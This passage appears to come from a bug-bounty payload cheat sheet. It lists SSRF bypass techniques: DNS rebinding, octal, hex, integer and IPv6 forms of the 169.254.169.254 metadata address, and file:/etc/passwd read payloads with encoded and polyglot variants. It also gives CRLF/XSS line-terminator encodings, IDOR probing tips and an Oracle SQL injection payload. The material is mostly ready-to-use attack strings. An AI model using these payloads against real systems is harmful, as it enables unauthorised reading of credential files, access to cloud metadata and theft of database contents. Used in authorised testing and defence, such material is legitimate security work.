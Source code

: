 ```

Use TOCTOU vulnerabilities, by providing alternating DNS responses to breach. 

Set up a DNS server that responds with two different IPs on alternating requests, one is allowed through the `ip_is_blocked()` function, and the other is not.

13-Non-Standard IP Notations

Octal, hexadecimal, integer, IPv6 can bypass some IP blockages! 

All these will be interpreted as `169.254.169.254`:
```
025177524776 (octal)
0xa9fea9fe (hexadecimal)
2852039166 (integer)
::ffff:a9fe:a9fe (IPv6)
```
14-SSRF Payloads for LFR/LFD
```
file:/etc/passwd%3F/
file:/etc%252Fpasswd/
file:/etc%252Fpasswd%3F/
file:///etc/%3F/../passwd
file:${br}/et${u}c%252Fpas${te}swd%3F/
file:$(br)/et$(u)c%252Fpas$(te)swd%3F/
```
*SSRF POLYGLOT*

`file:///etc/passwd?/../passwd`
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
2-if you find something like this
```
POST /api/v3/SetEmail
```
-try to change v3 to v2,v1,v1-beta...

-add some parameter for example userid 
```
/api/v3/SetEmail/1337
```
-try to remove cookies or set unvalid ones
# SQL INJECTION
1-If you discover an oracle web app, try this payload
```
EHY01%27OR+1%3d1+AND+NVL(ASCII(SUBSTR((SELECT+chr(78)%7c%7cchr(69)%7c%7cchr(84)%7c%7cchr(83)%7c%7cchr(80) )%7c%7cchr(65)%7c%7cchr(82)%7c%7cchr(75)%7c%7cchr(69)%7c%7cchr(82)+FROM+DUAL)%2c9%2c1))%2c0) %3d82--
